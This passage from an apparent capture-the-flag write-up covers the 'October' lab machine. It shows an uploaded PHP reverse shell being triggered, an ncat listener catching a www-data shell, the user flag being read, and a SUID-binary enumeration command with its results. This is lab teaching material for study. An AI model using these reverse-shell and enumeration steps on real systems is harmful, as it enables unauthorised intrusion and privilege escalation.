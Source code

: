 ![](./images/october-upload-php-reverse-shell.png)

Visiting the reverse shell at `http://10.10.10.16/storage/app/media/r0kit-rsh.php5` triggered the web server to connect back to my netcat listener on port 2001:

```none
ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.16.
Ncat: Connection from 10.10.10.16:41818.
Linux october 4.4.0-78-generic #99~14.04.2-Ubuntu SMP Thu Apr 27 18:51:25 UTC 2017 i686 athlon i686 GNU/Linux
 17:21:28 up 59 min,  0 users,  load average: 8.34, 7.79, 6.40
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

After [upgrading my reverse shell to a pseudo terminal](https://medium.com/bugbountywriteup/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2), I managed to get the user flag:

```none
www-data@october:/home/harry$ cat user.txt
29161ca87aa3d34929dc46efc40c89c0
```

## Privilege Escalation

After poking around for a bit, I ran across a suspicious SUID binary:

```bash
find / -perm -4000 2>/dev/null
```

```none
/bin/umount                 
/bin/ping      
/bin/fusermount
/bin/su
/bin/ping6
/bin/mount 
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/sudo
/usr/bin/newgrp               
/usr/bin/pkexec
/usr/bin/passwd
```